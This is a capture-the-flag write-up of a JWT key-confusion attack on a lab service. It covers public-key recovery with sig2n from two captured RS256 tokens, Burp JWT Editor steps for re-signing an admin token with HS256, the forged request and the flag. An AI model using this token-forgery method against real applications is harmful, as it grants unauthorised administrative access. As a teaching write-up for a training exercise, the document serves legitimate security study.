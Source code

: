 # CTFkom 03.09.2025 - Writeup Asymmetric JWT

---

# Objective and scope

---

The target application at `http://129.241.150.108:30005` uses a `jwt` cookie for session handling. The objective was to assess and exploit the session handling in order to forge an administrative token and reach the protected endpoint `/flag/`.

# How do Key Confusion Attacks Work

---

JSON Web Tokens encode a header, a payload, and a signature. RS256 uses an RSA private key for signing and an RSA public key for verification. HS256 uses an HMAC secret for both signing and verification. If a verifier accepts the token’s `alg` header and reuses RSA public-key material as an HMAC secret, an attacker who knows the public key can sign HS256 tokens that the server will accept as authentic. This is then called a key confusion attack. The key questions are whether the public key can be recovered, and which exact byte representation the verifier treats as the HMAC secret, because flawed implementations vary between SubjectPublicKeyInfo, PKCS#1, DER bytes, or even literal PEM text.

# Collected material

---

An RS256 JWT was observed in traffic and used as input for public-key recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyMzkxNywiZGF0ZV9vZl9iaXJ0aCI6IiJ9.wL0y3OEdqPzEQUYhEfFgETAGuVlysnPbgf6molGDCG8FMkGUvhy24_w8O1jljJ-V5hmY2U6xjqTGtpvMgzG44g
```

When decoding the token, we see the following content inside of the JWT:

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
{
  "username": "test",
  "admin": false,
  "exp": 1756923917,
  "date_of_birth": ""
}
```

The important value is the “admin” boolean, which shows the server if a user has administrative permissions to access the /flag/ endpoint.

So the goal is to forge a token that sets the “value” to `true` and have a valid expiration date and a valid signature. Since this token is using asymmetric algorithms to for signature verification, we cannot just bruteforce the secret. Usually, the first things that comes to mind is a key confusion attack. This type of attack is described at the beginning of the writeup.

Do perform such an attack, a second RS256 token with a slightly different payload was captured to improve recovery:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTc1NjkyNDAzMiwiZGF0ZV9vZl9iaXJ0aCI6IiJ9.vUsAqmHufwd7YoREteaxxx9LMPp_fNdPWV7XbWjoOn8gO7kRlz8E9s1EVbT1xetuTB0LHYXxMW2z33c9Pd4E7g
```

# Public-key recovery and initial acceptance test

---

Since the public key is not hosted publicly (or at least it’s hidden very well), we need to reconstruct the public key. PortSwigger’s `sig2n` was used to reconstruct the RSA public key and emit candidate HS256 tokens. This is the only helper command that was required:

```bash
docker run --rm -it portswigger/sig2n <token1> <token2>
```

Relevant terminal output:

```
Running command: python3 jwt_forgery.py <token1> <token2>

Found n with multiplier 1:
    Base64 encoded x509 key: LS0tLS1---[snip]---tLS0tRU5EIFBVQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOiJ---[snip]---fYqUsPY
    Base64 encoded pkcs1 key: LS0---[snip]---S0VZLS0tLS0K
    Tampered JWT: eyJhbGci---[snip]---eAibOmH_zyg-w

Found n with multiplier 2:
    Base64 encoded x509 key: LS0tLS1C---[snip]---VQkxJQyBLRVktLS0tLQo=
    Tampered JWT: eyJhbGciOi---[snip]---qfsOmB_tqg
    Base64 encoded pkcs1 key: LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
    Tampered JWT: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ICJ0ZXN0IiwgImFkbWluIjogZmFsc2UsICJleHAiOiAxNzU3MDA5ODY0LCAiZGF0ZV9vZl9iaXJ0aCI6ICIifQ.z4pUOUyrCJFInLoXXyBIPbl7_T25t5IWbB732uLCHPE
```

The script found two different multipliers, so I just tried all the tokens (Tampered JWT) and sent them to the server. The last “tampered” HS256 token was accepted by the server rather than causing a redirect, which proved algorithm confusion and indicated that the verifier reused public-key material as an HMAC secret. So the PKCS#1 RSA PUBLIC KEY PEM text bytes from the “multiplier 2” value are considered valid. This matters because the exact bytes used as the HMAC secret must match the verifier’s expectation.

# Determining the Exact Secret Bytes

---

The sig2n line labeled “Base64 encoded pkcs1 key” for multiplier 2 is the base64 of the RSA PUBLIC KEY PEM text. Decoding it yields the full `-----BEGIN RSA PUBLIC KEY-----` block with header, footer, and line breaks. The verifier treated those literal PEM bytes as the HMAC secret, not DER, not SPKI, and not x509.

# Burp Suite Exploitation Using JWT Editor

---

This attack can be performed entirely in Burp by registering the correct symmetric key and letting the extension re-sign the token. We need the JWT Editor extension in burp to perform this attack.

The following base64 value can be used in the k value in the JWT token (this is the public key that we reconstructed earlier):

```
LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1FZ0NRUURIeXNSeEFBNFZGdHNZVW5KRUFSc1JINDZQVmtLeWcwL0lRTW9yTk1CY01qK3A2Y0VoZEJKdmNzSDEKanE1dUpYWTJOWDQvellOeUg4djRzNW5rUzM2dEFnTUJBQUU9Ci0tLS0tRU5EIFJTQSBQVUJMSUMgS0VZLS0tLS0K
```

In Burp Suite, the attack can now be done. Here are the exact steps to forge a token and sign it using the public key:

1. Open the JWT Editor Key**s** tab. Click New Symmetric Key. Set `kty` to `oct`. Set `k` to the public key that’s base64 encoded. Optionally set a `kid`, but this is not required. Save the key.
2. Send a request that carries the `jwt` cookie to Repeater. Select that request and open the JSON Web Token tab for the cookie value.
3. Edit the JWT header so that `alg` is `HS256` and `typ` is `JWT`.
4. Edit the payload to include the intended claims. Use at least `{"username":"test","admin":true,"exp":<fresh-epoch>,"date_of_birth":""}`. The exp can be calculated using this website [https://www.unixtimestamp.com/](https://www.unixtimestamp.com/)
5. Click **Sign** and choose the symmetric key created in the JWT Editor Keys tab. Burp replaces the signature with a valid HS256 HMAC using the registered key.
6. Send the request to `/flag/`. 

The endpoint shows a 200 status code and shows the flag. The full request and response is shown in the next chapter.

# Access to the Protected Resource and Flag

---

With the forged token set in the `jwt` cookie, `/flag/` returned HTTP 200 and the flag was present in the response. Here is the request that was being used request:

```
GET /flag/ HTTP/1.1
Host: 129.241.150.108:30005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://129.241.150.108:30005/home/
Cookie: jwt=**eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzU3MDExMTc2LCJkYXRlX29mX2JpcnRoIjoiIn0.n7ShzBoadFfV-fhkE6RvtcNWO9KBm56qXGg65iPuW_g**
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The result was a HTTP 200 with the flag in the response body. This confirms that the server validated a HS256 signature produced with the PKCS#1 PEM text secret and accepted the administrative claim.

![image.png](image.png)

The flag is:

```
CTFkom{ddaf66f1b50d425e7d68ad930ae563a}
```

# Conclusion

---

The verifier accepted the token’s `alg` header and reused RSA public-key material as an HMAC secret. The exact secret matched the decoded PKCS#1 RSA PUBLIC KEY PEM text bytes from `sig2n` multiplier 2. Constructing and signing an HS256 token with `admin: true` and a valid expiry in Burp’s JWT Editor yielded HTTP 200 on `/flag/`.

This proves that there is a key confusion vulnerability in the token verifier which can be abused to forge tokens with administrative access.
